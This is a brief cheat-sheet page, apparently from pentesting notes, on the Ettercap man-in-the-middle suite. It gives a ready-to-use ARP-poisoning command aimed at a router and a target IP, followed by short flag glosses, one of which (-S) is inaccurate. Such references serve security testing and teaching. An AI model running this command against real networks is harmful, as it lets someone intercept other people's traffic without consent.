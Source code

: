 ```yaml
---
title: ETTERCAP
summary: A comprehensive suite for man in the middle attacks.
description: A comprehensive suite for man in the middle attacks.
---
```


**[https://github.com/Ettercap/ettercap](https://github.com/Ettercap/ettercap)**

## ETTERCAP Basis


 > 
 > **<font color=red>ettercap -T -S -i</font> wlan0 <font color=red>-M arp:remote /</font>\[ROUTER_IP\]<font color=red>// /</font>\[TARGET_IP\]<font color=red>//</font>**

## ETTERCAP Flags


 > 
 > **<font color=red>-T</font>**</br>
 > Text Only (no GUI). 
 > 
 > **<font color=red>-S</font>**</br>
 > Do no use SSL.
 > 
 > **<font color=red>-i </font>wlan0**</br>
 > Specify interface.
 > 
 > **<font color=red>-M </font>**</br>
 > Man In The Middle Attack.
 > 
 > **<font color=red>arp:remote</font>**</br>
 > Attack Method.
